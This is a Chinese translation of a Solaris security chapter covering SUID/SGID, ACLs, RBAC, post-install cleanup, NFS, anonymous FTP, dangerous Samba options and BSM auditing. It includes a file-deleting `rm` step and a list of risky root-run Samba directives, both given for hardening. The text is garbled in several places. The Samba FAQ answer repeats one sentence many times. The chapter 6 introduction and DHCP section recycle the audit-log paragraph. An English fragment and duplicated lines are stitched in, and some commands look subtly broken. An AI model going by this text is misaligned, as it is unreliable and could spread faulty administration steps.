这些文件可以查看，但不能读取其他文件。除了 root 用户外，任何文件都无法更改。结果如图 5.1 所示。注意，尽管我们的管理员 scarter 的实际 GID 为 101 (users)，但文件 `notice_administrators` 是可读的。这是因为 scarter 也是 sysadmin 组的成员。而 `notice_accounting` 文件属于 scarter 不所属的组，因此无法访问。

## 图 5.1 使用组控制对文件的访问



对于文件所有者来说，这种权限系统是非常有限的。基本上，由于只允许一个所有者和一个组，你在允许他人访问你的文件时没有太大的灵活性。这个问题有解决方案，但它们并不总是优雅。对于编译后的二进制文件和解释型脚本，你可以选择使用特殊的 **SETUID** 位。这允许执行者在所有者用户或组的权限下运行。当你有一两个两个希望向公众提供但需要特殊权限的应用程序时，这种解决方案非常方便。它还允许用户以通常不拥有的特权操作，例如 root 用户的权限。然而，这正是风险所在。任何程序（无论是二进制文件还是脚本）都不应该在没有仔细考虑和大量测试的情况下被设置为 SETUID 或 SETGID。带有这些特殊标记的程序可能被用来破坏整个系统！这种这种困境的完美例子是在 `whodo` 程序中发现的缓冲区溢出。`whodo` 程序用于显示哪些用户正在做什么，它安装时开启了 SUID 位并将所有者设置为 root。它需要以 root 权限运行，因为为了收集输出，`whodo` 需要读取 UTMP 日志以及进程表，这两者都是限制的。

## 工具与陷阱

### 在目录上启用 SGID 位时要小心

需要注意的是，SGID 位在应用到目录时具有特殊含义。在这种情况下，创建的文件的所有者将是目录所属的组，而不是进程的 GID。`chmod(1)` 的手册页也提到，此设置只能通过使用 `chmod` 并在符号模式下提供参数来清除。

对于每一个带有 SUID 或 SGID 位的程序，你需要回答的问题很简单，但人们往往回答了错误的问题。许多系统管理员会问自己：“这个程序真的需要这些特殊设置吗？”而他们实际上在问：“我的系统真的需要这个程序吗？”回答后一个问题并考虑所有的替代方案将为你今后的未来规避许多风险。它仍然可能让你暴露于有漏洞的程序，但你会意识到这种风险。

另一种特殊权限被称为**粘滞位 (sticky bit)**。出于安全考虑，我们通常只关注目录上的此位。（查阅 `sticky(5)` 的手册页以了解该位的其他用途）。设置在目录上时，粘滞位会保护目录内的文件。只有文件所有者、目录所有者或 root 用户可以删除文件。

### 访问控制列表 (ACL)

在 Solaris 文件系统框架内，允许多个用户的另一种解决方案是使用访问控制列表，即 ACL。ACL 为授予或限制访问提供了更细粒度的方法。它们还允许对目录使用默认 ACL 条目。默认 ACL 可以被视为一个模板，应用于目录内创建的每个文件。

为什么你需要 ACL？我认识的 Solaris 管理员都不使用它们，并且很难看出它们的性。再次，在整个系统中部署 ACL 是相当耗时的，但它们起着非常重要的


任何不使用 ACL 的管理员都是对自己极大的不利。想想：假设你拥有一个文件（记住，每个文件只有一个所有和一个组！）你想允许一个特定的用户访问该文件，而不是整个组。除非使用 ACL，否则这项任务是不可能的。

让我们演示 ACL 的工作，同时看看 ACL 如何帮助你的组织管理新管理员，并要求她只负责添加用户。你们没有运行窗口系统，因此初级管理员无法访问工具或其他任何 GUI 工具。你需要新管理员能够访问这些工具。为了让这些工具工作，需要将其更改 SUID root——这通常是一个坏主意，但通过 ACL，我们的风险被大大降低了。图 5 显示了此过程所需的步骤。在文件上设置 ACL 时，特别注意 `mask:` 选项。此掩码指示了用户可以获得的最大权限，无论你实际设置了什么。

## 图 5.2 在文件上应用 ACL



第一步是识别你想用 ACL 保护的文件以及保护它们的原因。在这个案例中，我们通过识别需求这一点

为三个程序添加 SUID 位。然后我们更改了这三个文件的权限，以启用 SUID 并关闭所有其他权限。在这种情况下，这样做是可以的，因为 ACL（访问控制列表）将决定谁可以做什么。接着我们使用 `getfacl` 检查了现有的 ACL，并使用 `setfacl` 命令修改了现有的 ACL。注意，当我们使用 `ls -l` 命令查看文件时，权限末尾出现了一个 `+`（加号）。这是文件受 ACL 保护的指示。但为什么在我们设置 `setfacl` 之前，`getfacl` 的输出显示文件上有 ACL，而 `ls -l` 的输出没有加号呢？答案很简单：每个文件都应用了一个基础的 ACL。这只是为了明确说明，ACL 的作用与普通权限完全相同。一旦我们对 ACL 添加了一些特殊处理（在本例中是允许用户 `sysop` 执行该命令），ACL 指示就会显示出来。最后一步，我们以目标用户 `sysop` 的身份运行命令，并确认其他用户无法执行该命令。

现在我们看到了它是如何运作的，让我们花点时间解释一下设置。基本上，一切都是通过 `setfacl` 命令完成的。该命令有几个选项，列如下：

- `setfacl -s user::perms,group::perms,other:perms,acl_data filename [filename ...]` 此命令在指定的参数或文件上设置 ACL。当 `-s` 选项是初始 ACL 数据时需要使用它，因为 `-s` 选项会覆盖所有之前的数据，包括测试 ACL。`acl_data` 参数是你想应用到文件的特定用户或组 ACL 数据。
- `setfacl -m acl_data filename [filename ...]` 此命令修复 ACL 中现有的 `acl_data` 部分。
- `setfacl -d acl_data filename [filename ...]` 此命令从 ACL 的 `acl_data` 部分删除特定元素。
- `getfacl <input ACL file> -f <output ACL file>` 此命令是使用简单的 shell 管道将 ACL 从一个文件应用到另一个文件的一种方便方法。`setfacl -f` 命令从 `getfacl` 的输出中获取输入，这使得 ACL 的复制变得更加毫不费力。

ACL 最适用于保护 SUID 文件。在示例中，我们需要将用户* 命令设置为 SUID root，以便普通用户可以使用它们。在进行 SUID 审计后，所有剩余的、带有 SUID 位的命令都应该用 ACL 进行保护。

## 基于角色的访问控制

基于角色的访问控制（通常称为 RBAC）允许你根据用户需要承担的角色授予增强的权限。在过去，当你需要允许用户执行需要 root 权限的任务时，你只有少数选择。最简单的方法（正如我们在上一节中所做的）是使用 SUID 位。然而，这不是最好的方法。另一个流行的选项是使用像 SUDO 这样的程序。现在，随着 RBAC 的引入，你可以使用 Solaris 原生应用程序。

RBAC 在《Solaris 8 系统管理指南》第2卷中描述如下：“通过 RBAC，你可以通过为用户分配适当的权限包，赋予他们解决自己问题的能力。超级用户的能力可以通过将这些能力划分为几个包，并将它们分别分配给共同管理责任的个人来定义。”RBAC 包含这些特性：

- 授权（Authorization）一种用于授予访问受限制函数的权利。
- 执行配置（Execution profile，或简称为 profile）一种组合机制，用于将具有特殊属性（例如用户 ID 和组 ID）的授权和命令分组。
- 角色（Role）一种特殊的用户账户类型，旨在执行一组管理任务。

RBAC 依赖于平面数据库来提供特权操作的访问：

- `user_attr`（扩展用户属性数据库）将用户和角色与授权及执行配置关联。
- `auth_attr`（授权属性数据库）定义授权及其属性，并识别关联的文件。
- `prof_attr`（执行配置属性数据库）定义配置，列出配置分配的授权，并识别关联的文件。
- `exec_attr`（配置执行属性数据库）定义分配给配置的特权操作。

在阅读本节后，你将看到如何更好地使用 RBAC 来实现相同的目标。你将用于配置 RBAC 的文件及其格式如下：

- `/etc/user_attr` - `user:qualifier:res1:res2:attr`
- `/etc/security/auth_attr` - `authname:res1:res2:short_desc:long_desc:attr`
- `/etc/security/prof_attr` - `profname:res1:res2:desc`
- `/etc/security/exec_attr` - `name:policy:type:res1:res2:id:attr`

### `/etc/user_attr – user:qualifier:res1:res2:attr`

在 `/etc/passwd` 中找到的有效用户名项、qualifier、res1 和 res2 应当留空，因为它们被留作以后使用，而 `attr` 是用分号分隔的键值对，描述执行用户命令时使用的安全属性。这是可选的。有四个有效的键：auths、profiles、roles 和 type，它们在《Solaris 8 系统管理指南》第2卷中的定义如下：

- auths 指定一个从 `auth_attr(4)` 数据库中定义的名称中选择的授权名称逗号分隔列表。授权名称可以包含星号 `*`。
- profiles 指定一个从 `defined_attr(4)` 中选择的配置名称的逗号分隔列表。
- roles 指定一个在 `user_attr` 中定义的角色名称的逗号分隔列表。
- Type 如果该账户是普通用户，则设置为 normal；如果是角色账户，则设置为 role。


### `/etc/security/auth_attr - authname:res1:res2:short_desc:long_desc:attr`

此文件的格式有点复杂。第一个字段 `authname` 是授权的名称，它必须唯一的。每个唯一的前缀可以有后缀，前缀/后缀组通过点分隔。与之前的文件一样，`res1` 和 `res2` 留作以后使用，应当留空。第四和第五字段用于描述，其中第一个是摘要。最后一个字段允许添加零或多个键值对，以进一步描述授权的属性。

### `/etc/security/prof_attr - profname:res1:res2:desc`

此文件定义配置（以前称为执行配置），格式简单。第一个字段是配置的名称，它是大小敏感的。第二个和第三字段 `res1` 和 `res2` 留作以后使用，应当留空。第四字段用于描述，最后一个字段包含授权。这是一个分号分隔的键值值列表。最有用的键是 `auths` 键，它用于指定在 `auth_attr` 文件中定义的、并将应用到此配置的授权。

### `/etc/security/exec_attr - name:policy:type:res1:res2:id:attr`

这是 RBAC 配置的最后一块碎片。此文件定义了配置与分配给该配置的命令之间的关系。文件的第一个字段是名称，它是 `prof_attr` 文件中的配置名称之一。第二个字段应包含与此配置关联的安全策略。目前仅支持一种策略，即超级用户策略模型。该策略的关键字是 `suser`，且是唯一的有效输入。第三字段指定类型，目前仅支持值 `cmd`。第四和第五字段正如保留字段一样，是留作以后使用的，应当留空。第六字段用于指定将执行的命令。


type the entire path. The final field contains a semicolon-separated list of key=value pairs. Four are kept: uid, eid, gid, and eid.
*uid keys take a single username as a value; the gid keys take a group name. When you assign a uid or eid, the effect is identical to running the command setuid or setgid. When both the uid or gid, both real and effective id will be changed.*

关于 RBAC 的完整描述，请参阅 Sun 的安全白皮书《RBAC in the Solaris Operating Environment》，地址为 www.sun.com/software/whitepapers。

## 更改默认设置

我们都面临过在基础版 Solaris 安装后进行清理的这项艰巨任务。我们曾疑惑，为什么 Sun 选择让这么多东西处于开放状态。但正如老话所说：“我们不是追究为什么。”在本节中，我们将介绍安装后清理所需的一些任务。以下讨论并不是为了提供一份详尽的指南；例如，我们假设你已经知道如何关闭不需要的服务并删除多余的用户。

我们怎么强调都不为：在接管现有系统时，安装后要的第一件事就是应用补丁。漏洞渗透速度极快，未打补丁的系统会变成问题的堆。为了你的理智：打补丁，打补丁，再打补丁！

- 重命名配置链接 `/etc/rc2.d/{S30sysid.net,s71sysid.sys,S72autoinstall}` 为 `/etc/rc2.d/{s30sysid.net,s71sysid.sys,s72autoinstall}`。这样做可以防止拥有 root 权限的人执行 `sys-config` 来抹除所有网络参数。
- 重命名 NFS 和缓存 `/etc/rc2.d/{K28nfs.server,S73nfs.client,S73caches.daemon,S93caches.finish}` 为 `/etc/rc2.d/{k28nfs.server,s73nfs.client,s73caches.daemon,s93caches.finish,s74autofs}`，如果你不使用 NFS，则禁用 NFS 挂载和导出。


- 重命名 RPC 链接 `/etc/rc2.d/{S71rpc,S76scnd}` 为 `/etc/rc2.d/{NOS71rpc,NOS76scnd}` 以禁用 RPC 服务。
- 重命名 expresve 链接 `/etc/rc2.d/S80PRESERVE` 为 `/etc/rc2.d/NOS80PRESERVE`。Expreve 可以从未保存的 vi 会话中恢复数据，但在历史上一直存在漏洞。
- 输入 `/bin/rm "/etc/auto_*" /etc/dfs/dfstab`。（务必注意该命令中的 `"` 和 `*` 之间没有空格！）注意：如果你在配合自动挂载（automounter）时使用 NFS，请勿执行此步骤。

下一步是查找系统中残留的所有 SUID 程序。此任务可以使用 `find` 命令轻松完成，如下所示：

```
```


```
find / -type f -perm -u+s -o -perm g+s -ls
```

通常之后会将输出重定向到文件中。棘手的部分在于当你并不熟悉 `suid` 或 `sgid` 命令的使用。我安装的 Solaris 8 带有 59 个具有 `suid` 或 `sgid` 的二进制文件。虽然我认识其中大部分，但可以说我对它们都非常熟悉。我发现一个非常有用的命令是 `awk` 命令：

```
awk '/f none [246]/{print}' /var/sadm/install/contents
```

它非常方便，原因很简单：它不仅列出了 SUID 和 SGID 文件，还列出了安装每个文件时的包。使用此命令，你可以获取关于新命令或未知命令更多的信息。遗憾的是，没有人能给你一个“灵丹妙药”，然后具体告诉你哪些文件可以或不能是 SUID/SGID。

# 第 5 章 - 安全您的文件

涉及日志记录的另一个重要步骤是确保 `inetd(1)` 记录所有的 TCP 连接。这是通过向 `/etc/init.d/inetsvc` 文件中的条目添加 `-t` 跟踪参数实现的。添加一行来限制核心文件（core file）。核心文件对于调试很有用，但也可以被攻击者用来了解系统的运行机制。建议您在 `/etc/init.d/inetsvc` 文件中添加行 `ulimit -c 0`。

## 使用 NFS

网络文件系统（NFS）长期以来一直用于运行 UNIX 的计算机之间共享数据，最近也用于 UNIX 计算机和 PC 之间。然而，这项长期的服务并非没有出现过问题。NFS 正受到攻击，运行 NFS 会让你面临风险。在运行 NFS（或者说，运行任何基于 RPC 的程序）时，你无法完全保护自己，但可以采取一些步骤来尽可能地保护自己。

NFS 与任何基于 RPC 的程序一样，都依赖于一个名为 `rpcmount` 的服务。该服务是一个 RPC 服务器，负责处理通过 NFS 挂载文件的请求，它本身也具有固有风险。NFS 的主要问题之一是身份验证。默认情况下，发送到挂载载请求的网络消息没有加密。请求挂载的用户的 UID 和 GID 被封装在消息中并通过明文发送。这使得编写一个伪造挂载请求的程序变得相当容易。此漏洞可以通过使用 Diffie-Hellman（DH）或 Kerberos 身份验证来改变，强烈建议这样做。

对于 DH 身份验证，需要在网络中建立一个命名系统。域内的每台计算机都必须能够解析该名称。下一步是创建新的公钥和私钥。Solaris 提供了 `newkey(1)` 命令（如果您使用 NIS+，请参阅 `nisaddcred(1)`）来启用主机和用户密钥的创建。此外，支持 `chkey(1)` 以允许用户重新加密密钥。为 NIS 设置 DH 身份验证的步骤如下：

- 1. 编辑 `/etc/nsswitch.conf` 文件并将特定变量设置为 `nis`。
- 2. 执行带有 `-h <hostname>` 参数的 `newkey` 命令，并回答密码提示。
- 3. 在 NIS 服务器上，以 root 用户身份为每个用户执行带有 `-u <username>` 命令的 `newkey` 命令。
- 4. 让用户登录并执行 `chkey -p` 命令。


假设密钥服务器（`/usr/sbin/keyserv`）运行在主机上，并且已经执行了解密并存储用于使用的秘密密钥的 `keylogin` 命令，您现在应该可以使用 DH 身份验证了。要共享带有 DH 身份验证的文件系统，您只需向 `share` 命令提供 `sec=dh` 选项，如下所示：

```bash
share -nfs -o sec=dh /export/tools
```


如果您使用 `automount` 实用程序，还需要在 `auto_master` 映射中指定 `sec=dh` 选项。要使用 Kerberos 身份验证，只需带有 `sec=krb4` 选项执行 `share` 命令即可。当然，您必须已经在使用 Kerberos 了。设置 Kerberos 已超出了本文讨论的范围。

## 共享与公平共享

NFS 的另一个严重问题在于常见的管理疏忽。我记得曾审计过一家大型出版公司的 Solaris 服务器，该公司使用 NFS 将其准备材料分发到印刷厂。他们在互联网上从印刷厂共享了一个文件系统，完全没有任何保护，而且对挂载没有任何限制！我大吃一惊；他们竟然自得其乐。无论你是 NFS 方程中的客户端还是服务器，都有许多方法可以保护自己。`mount(1)` 和 `share(1)` 命令都允许使用一些非常实用的选项。在共享文件系统时使用的一些较好的选项见表 5.1。

## 表 5.1 Share(1) 命令的增强选项

| Share(1) 选项 | 解释 |
| :--- | :--- |
| `-rw=client[:client2:client3? ]` | 允许仅从这些特定客户端进行读/写挂载。其他客户端将无法挂载该文件系统。您还可以指定用户、网络组、网络和 DNS 后缀作为选项。详情请参阅 `share_nfs(1)`。 |
| `-ro=[client[:client2?]]` | 允许挂载仅进行导出，并可选地限制可以访问该文件系统的客户端。您还可以指定用户、网络组、网络和 DNS 后缀作为选项。详情请参阅 `share_nfs(1)`。 |
| `anon=-1` | 拒绝未知用户的访问。也拒绝其他机器 root 用户挂载文件系统的尝试，因为远程用户被映射为匿名 UID。 |
| `window=value` | 使用 Kerberos 或 DH 身份验证时，设置 RPC 请求凭据的最大生命周期。默认为 8 小时。 |
| `nosuid` | 限制客户端创建 SUID 和 SGID 文件。 |
| `nosub` | 限制客户端创建子目录。 |


## 锁定 FTP 服务

如果您计划提供 FTP 服务，请注意。这可能是一个危险的立场。这种情况很少被管理，但绝未消除。我的一个朋友——一位资深安全管理员、程序员和 UNIX 专家——某天在检查他的系统时；他发现了一笔真正的宝。。各种软件都知道黑客是如何窃取他的带宽以及他们能进一步进入他的系统的。

向客户端提供 FTP 服务是一件方便的事。它允许您以大多数 Web 用户熟悉的方式廉价且方便地分发软件。问题是，许多用于 FTP 的软件应用程序存在许多漏洞。在 SecurityFocus 上快速搜索可以让你忙碌很久。例如，最近有一个漏洞公告发布在 SecurityFocus 上，可以在 `www.securityfocus.com/bid/2496` 找到。该漏洞影响 Solaris、HP-UX、Linux、BSD、AIX 等。你如何保持安全？

唯一的答案是你不能，但你可以采取步骤来确保尽可能地安全。如往常，第一步是修补系统。修复所有已知的漏洞。接下来，您需要决定是否提供匿名 FTP 服务。如果是，则需要遵循一些通用指南。首先，确保 FTP 用户登录的环境是受限的。Solaris 的 FTPD 在本地执行到 FTP 用户主目录的 `chroot(2)`。这创建了一个用户——例如 `fituser`。该用户在 `/etc/passwd` 条目中不应使用有效的 shell。如果用户没有有效的 shell，登录将被阻止，这并不是我们想要的。我使用 `/noshell` 作为我的 FTP 用户 shell。该用户的主目录应该是存放 FTP 树的地方。类似 `/export/ftp` 的路径是推荐的。此外，确保是

通过在该用户的 `/etc/shadow` 文件条目中放置 `NP`，可以为该用户设置密码。接下来，需要仔细安排文件结构：

- `~ftp`: 该目录应该由 `root` 所有，且不应允许用户、组或其他用户写入。
- `~ftp/bin`: 该目录应该由 `root` 所有，且不应允许用户、组或其他用户写入。它应该是指向 `~ftp/usr/bin` 的软链接，并应包含 `ls` 命令，模式设置为 111。
- `~ftp/usr/lib`: 该目录应该由 `root` 所有，且不应允许用户、组或其他用户写入。此目录应包含以下文件：
  - `Ld.so.1*`
  - `libc.so.1*`
  - `libldl.so.1*`
  - `libmpmp.so.2*`
  - `libnsl.so.1*`
  - `libsocket_compat.so.1*`
  - `nss_dns.so.1*`
  - `nss_files.so.1*`
  - `nss_nis.so.1*`
  - `nss_nisplus.so.1*`
  - `nss_xfin.so.1*`
  - `stradder.so*`
  - `stradder.so.2*`
- `~ftp/etc`: 该目录应该由 `root` 所有，且不应允许用户、组或其他用户写入。放置 `/etc/passwd` 和 `/etc/netconfig` 的限制副本，模式设置为 444。
- `~ftp/pub`: 该目录是你上传和下载文件的地方。如果你想允许上传，将模式设置为 777；否则，设置权限以限制写访问。
- `~ftp/dev`: 该目录应该由 `root` 所有，且不应允许用户、组或其他用户写入。你需要使用 `mknod` 在此目录中创建文件。使用 `ls -IL`（小写 l，大写 L）获取主设备号和次设备号，然后使用这些数字创建节点。你需要的文件是 `/dev/zero`、`/dev/tcp`、`/dev/udp` 和 `/dev/ttyctl`。将这些节点上的读写模式设置为 666。
- `~ftp/usr/share/lib/zoneinfo`: 该目录的模式应为 555 并由 `root` 用户所有。其内容应与 `/usr/share/lib/zoneinfo` 相同。

此外，你需要确保 `/etc/pam.conf` 文件配置正确以处理 FTP 身份验证（无论是匿名还是普通）。以下行应出现在 `pam.conf` 文件中：

```
ftp      required      /usr/lib/security/pam_unix.so.1

ftp      account       required      /usr/lib/security/pam_unix.so.1

ftp      session       required      /usr/lib/security/pam_unix.so.1
```

最好，确保 `/etc/default/ftpd` 文件已创建，并包含你站点的有效标头以及 FTP 进程创建文件的 `UMASK`。我建议使用 `077`。

另一个有用的文件是 `/etc/ftusers`。该文件包含了不允许进行 FTP 访问的用户名。强烈建议将此文件中放入所有内置账户以及不应访问 FTP 服务的用户账户。命令非常简单：

```
cat /etc/passwd | cut -f1 -d: > /etc/ftusers

chown root /etc/ftusers

chmod 600 /etc/ftusers
```

## 使用 Samba

Samba 是一种开源应用程序，提供了在基于 UNIX 的系统和基于 Windows 的系统之间共享资源的能力，是 Windows/UNIX 操作性的一种流行的解决方案。问题在于它很难安全地进行配置。配置文件 `smb.conf` 非常复杂，有许多可使用的选项。在本节中，我们将讨论 `smb.conf` 文件中一些较好的安全选项，并查看一些当前的 Samba 漏洞。

`smb.conf` 文件的格式非常直观。以下是文件中的一个示例元素：


```
[accounting]

path = /export/accounting

writable = yes

browsable = no

valid users = accounting

max connections = 3
```


此条目在指定路径设置了共享会计目录。`writable` 参数定义了共享是可读写还是只读。在这种情况下，该共享是可读写的。然而，我们不会允许通过浏览列表看到该共享。我们通过指定 `browseable` 设置为 `no` 来防止这一点。我们定义了 `valid users`，其中具有管理权限的用户（由 `admin users` 参数定义）应该被仔细考虑。任何访问共享的用户将具有完全的控制权，并能够采取任何操作，无论权限如何。

在 `smb.conf` 中有一些你永远不应该使用的选项。这些选项详细列于表 5.2。

## 表 5.2 危险的 Samba.conf 配置指令

| 指令 | 说明 |
| --- | --- |
| root postexec | 指明在服务不再被使用后运行的命令。该命令以 root 权限运行。 |
| smbrun | 如果 Samba 安装正确，则不应设置此参数。该参数的值指示了 Samba 二进制文件的位置。它可以被用于强制使用“木马”或修改过的二进制文件。 |
| root preexec | 指明在服务连接时运行的命令。该命令以 root 权限运行。 |
| unix password sync | 如果设置为 true，此参数允许 Samba 服务器在不进行任何验证的情况下更改 UNIX 密码。所运行的程序也是可配置的，这造成了另一个漏洞。 |
| add user script | 假设满足特殊条件，由此参数定义的脚本将以 root 身份运行以添加用户。 |


### 表 5.2 继续

| 指令 | 说明 |
| --- | --- |
| delete user script | 假设满足特殊条件，由此参数定义的脚本将以 root 身份运行以删除用户。 |
| preexec | 与 root postexec 类似，但程序不是以 root 身份运行。 |
| panic action | 指定当 Samba 崩溃时运行的程序，可用于攻击系统。 |
| hosts equiv | 指定包含允许未身份验证访问的主机和用户名称的文件位置。 |

通过在该用户的 `/etc/shadow` 文件条目中放置 `NP`，可以为该用户设置无密码... `hosts equiv` 指定了包含允许未身份验证访问的主机和用户名称的文件位置。

文件安全 • 第 5 章 151

即 Microsoft Windows。它们存在漏洞，即使是最严格的设置也并不总是能封堵这些漏洞。对于任何文件共享服务，你都必须保持警惕。尽可能地修补或更新软件。测试、测试、再测试。

## 文件系统的监控与审计

无论你采取了哪些措施来保护系统，都必须时刻保持警惕。新的攻击不断被发现和完善，软件的每个新版本都会引入新的漏洞。安全是一个移动的目标，你永远无法一劳逸。Solaris 为你提供了几个实用的工具来监控你的系统。

最简单的工具是公司的在线“指纹”数据库。你可以使用这个位于 `http://solsolve.sun.com/pub-cgi/filefingerprints.pl` 的数据库，将现有文件与原始文件的 MD5 校验和进行对比。你需要 MD5 二进制文件，这些文件也可以从 Sun 获得。你可以从 `http://solsolve.sun.com/md5/md5.tar.Z` 下载。安装 MD5 二进制文件后，你可以可以使用类似下面的命令创建当前文件的校验和：

```
find /usr/bin -type f -print | xargs -n 100 /opt/md5/md5-sparc=/tmp/md5.txt
```

该命令查找 `/usr/bin` 目录下的所有文件，然后运行 MD5 校验生成器，并将输出重定向到临时文件。其他实用工具包括 Sun Basic 安全模块（BSM），它是一个非常详尽的系统审计器。BSM 提供了 C2 级别的审计，包含了大量信息。要在你的系统上启用 BSM 审计，只需执行 `/etc/security/bsmnconv`。BSM 以二进制格式写入日志，因此，它还包含了两个用于维护日志的工具。它们是 `auditreduce(1)` 和 `praudit(1)`。系统记录了两类事件：用户进程和内核事件。当启用 BSM 时，所有安全敏感内核事件都会产生审计日志。以下用户程序也可以生成审计条目：

- `/bin/login`
- `/usr/bin/su`
- `/usr/bin/newgrp`
- `/usr/dt/bin/dtlogin`
- `/usr/bin/in.nftpd`
- `/usr/sbin/rexd`
- `/usr/sbin/in.uucpd`
- `/usr/bin/passwd`
- `/usr/bin/deallocate`
- `/usr/sbin/mountd`
- `/usr/sbin/crond`
- `/usr/sbin/init`
- `/usr/sbin/halt`
- `/usr/sbin/uadmin`

实际生成审计事件的事件在 `/etc/security/audit_control` 文件中配置。该文件包含如下条：

```
dir:/var/audit

flags:lo

minfree:20

aflags:lo
```

第一行指示 `auditd` 子系统将审计信息存储在 `/var/audit` 目录中。第二行指示记录 LO（登录）类的审计事件。第三行 `minfree:20` 指示审计子系统执行 `audit_warn` 脚本，该脚本会向管理员生成警告，告知其空间问题。最后一行 `aflags` 定义了要进行审计的非属性性事件。这些事件定义了无法与特定用户关联的事件。

审计事件有许多预定义的类别。这些包括对文件读取 `FR`、文件写入 `FW`、网络事件 `NT` 和管理性事件 `AD` 进行审计的能力。所有可用审计事件的完整列表可以在 `audit_control(4)` 手册页中找到。

BSM 使用的另一个文件是 `/etc/security/audit_user`。该文件包含按用户的指令，并允许更细粒度的审计。也许你为顾问提供了一些临时账户，或者有一个用户被怀疑在企业内部有恶意操作。你可以指定对该用户账户进行更严密的监控。相反，你也可以指定不进行审计的标志。`audit_user` 文件的格式如下：

```
username:flags_to_audit:flags_to_not_audit
```

这些标志与 `audit_control` 文件中的相同。当你启用对用户命令（`exec` 类）的 BSM 审计时，开启对命令参数的审计也是一个好主意。默认情况下，BSM 只记录命令，但通过 `-setpolicy` 选项输入 `auditconfig` 命令允许你缩小范围：

```
auditconfig -setpolicy +argv
```


要处理审计数据，你需要使用 `auditreduce` 和 `praudit` 命令。使用 `auditreduce` 从审计文件中选择并可选地删除记录；这通常用于生成并将管道到 `praudit` 命令的数据。请阅读这些命令的手册页以熟悉更多选项。我们在这里如表 5.3 所示，简要查看其中一些常用的选项。

## 表 5.3 auditreduce 命令选项

| 选项 | 说明 |
| :--- | :--- |
| `-r /pathname` | 指定备用的 `audit_root` 目录。如果你将记录归档到备目录，则很有用。 |
| `-s server` | 将审计重定向到服务器。 |
| `-a` | 指定包含的审计类。 |
| `-b` | 指定排除的审计类。 |
| `-d` | 指定包含的审计事件。 |
| `-e` | 指定排除的审计事件。 |
| `-m` | 指定最小记录数。 |
| `-p` | 指定包含或排除的进程 ID `PID`。 |
| `-u` | 指定包含或排除的用户 ID `UID`。 |

## 总结

在本章中，我们涵盖了一些安全方面。我们查看了访问控制和基于角色的控制 `RBAC`。我们学习了 `RBAC` 如何允许对特权命令的有限访问。我们研究了某些 `NFS`。我们还窥探了 `Samba` 的某些选项。

希望在阅读本章并应用一些新技巧后，你的系统会更安全。但它不会是完全安全的。它永远不会完全安全。安全是一个移动的目标。

## 解决方案快速通道

### 建立权限和所有权

- 要非常警惕 `SUID`/`SGID` 二进制文件。
- 在审计后，对所有二进制文件使用 `ACL`。

### 文件系统的监控与审计

- 请注意你已安装的基准。务必在安装和配置后立即对系统进行快照。妥善保护此快照。
- 如果你选择 `BSM` 基本安全模块 审计，请确保你使用了某种日志削减系统。如果不加检查，审计日志会迅速填满并阻塞系统。
- 同样在使用 `BSM` 时，请记住配置被审计的事件并监控它们的适用性。此设置可能需要进行调优！

## 常见问题解答

以下常见问题由本书书作者提供解答，旨在既衡量你对本章所介绍概念的理解程度，又帮助你在现实应用中实现这些概念。如果你对本章有疑问，可以访问 `www.syngress.com/solutions` 并点击“询问作者 Ask the Author”表单，由作者为你答疑。

问：你提到了 `SUID` 二进制文件的风险。我听说过缓冲区溢出，这些难道不是很难利用吗？它们难道不需要特殊的编程知识吗？

答：答案是否定的。随着互联网的爆炸式增长，利用这些漏洞所需的知识和工具都是随处可见的。使用他人提供的工具不需要特殊的编程知识，而且这些工具非常容易获得。

问：我记录了大量内容，如何才能跟上所有进度呢？

答：这是一个非常巨大的任务。审计数据可能会迅速增长并到人类无法管理的程度。正因如此，有一些算法可以读取并解释你的日志数据，并提供有用、简洁的报告。有些甚至会监控这些日志并提供有限的告警功能。

问：我负责很多系统，没有时间完成所有的加固流程。有什么自动化方法可以帮助我完成这项任务吗？


答：有的。首先，Solaris 自带 `ASET` 工具，它在评估整体安全时非常方便。其次，有几个开源工具在帮助加固系统方面表现出色。两个最受欢迎的工具是 `YASSP` 和 `Titan`。

问：你提到 `Samba` 守护进程无论配置得多么安全，都是有漏洞的。有什么方法可以缓解这种漏洞吗？

答：取决于你的需求，可以的。如果你持续使用 `Samba` 服务进行挂载，那么可以。如果正在使用 `Samba` 服务进行挂载，那么可以。如果你正在使用 `Samba` 服务进行挂载，那么可以。如果你正在使用 `Samba` 服务进行挂载，那么可以。如果你正在使用 `Samba` 服务进行挂载，那么可以。如果你正在使用 `Samba` 服务进行挂载，那么可以。如果你正在使用 `Samba` 服务进行挂载，那么可以。

## 第 6 章 加固你的网络

本章将介绍：

- 将 Solaris 配置为 `DHCP` 服务器
- 加固你的网络服务
- 在 Solaris 上配置 `DHCP` 服务
- 在 Solaris 上进行加固
- 远程使用 Solaris 服务
- 总结
- 常见问题解答

## 引言

审计数据可能会迅速增长并到人类无法管理的程度。正因如此，有一些算法可以读取并解释你的日志数据，并提供有用、简洁的报告。有些甚至会监控这些日志并提供有限的告警功能。

## 将 Solaris 配置为 DHCP 服务器

从 Solaris 6 版本开始，Solaris 自带了一个基于 Java 的图形用户界面工具，称为 `DHCP Manager`，你可以从 `/usr/sbin/admn/bin/dhpmgr` 启动。数据可能会迅速增长并到人类无法管理的程度。正因如此，有一些算法可以读取并解释你的日志数据，并提供有用、简洁的报告。有些甚至会监控这些日志并提供有限的告警功能。

